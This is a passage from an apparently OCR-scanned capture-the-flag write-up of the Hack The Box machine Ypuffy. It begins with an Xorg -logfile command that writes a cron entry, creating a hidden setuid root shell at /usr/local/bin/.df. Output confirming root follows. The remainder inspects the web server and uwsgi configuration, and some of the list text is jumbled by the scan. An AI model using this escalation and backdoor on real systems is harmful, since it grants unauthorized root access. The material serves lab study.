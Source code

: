 ypuffy$ Xorg -fp "* * * * * root cp /bin/sh /usr/local/bin/.df; chmod 4777 /usr/local/bin/.df" -logfile crontab :1 &
Wait for the minute to roll, and:
ypuffy$ /usr/local/bin/.df
ypuffy# id
uid=5000(alice1978) euid=0(root) gid=5000(alice1978) groups=5000(alice1978)
WebServer Config
Apache
/etc/httpd.conf shows how the server is set up:
server "ypuffy.hackthebox.htb" {
listen on * port 80

    location "/userca*" {
            root "/userca"
            root strip 1
            directory auto index
    }

    location "/sshauth*" {
            fastcgi socket "/run/wsgi/sshauthd.socket"
    }

    location * {
            block drop
    }

}
The server listens on 80, and there are three paths it cares about:
1	/userca* - Any path starting with that (so /userca, /usercaa, and /userca0xdf) all resolve to the /var/www/userca folder, with dir listing enabled.ypuffy# pwd
2	/var/www/userca
3	ypuffy# ls
4	ca.pub
5	
6	/sshauth*- This will use a wsgi set up, just like Dab last week. I’ll dig into this next.
7	Anything else is blocked and dropped. This explains the Fin/Ack packets I saw on initial enumeration.
wsgi
The wsgi app is in /var/appsrv/sshauthd:
ypuffy# ls
sshauthd.ini [sshauthd.py](http://sshauthd.py/)  sshauthd.pyc [wsgi.py](http://wsgi.py/)
Just like in Dab, the ini file describes how wsgi starts, in this case, with 3 processes, using the same socket identified in the httpd config:
ypuffy# cat sshauthd.ini
[uwsgi]
plugins         = python
chdir           = /var/appsrv/sshauthd
pythonpath      = /usr/local/bin
wsgi-file       = /var/appsrv/sshauthd/wsgi.py
safe-pidfile    = /var/appsrv/sshauthd.pid
fastcgi-socket  = /var/www/run/wsgi/sshauthd.socket
chmod-socket    = 660
master          = true
processes       = 3
callable        = app
vacuum          = true
the [sshauthd.py](http://sshauthd.py/) file describes how web requests are handled:
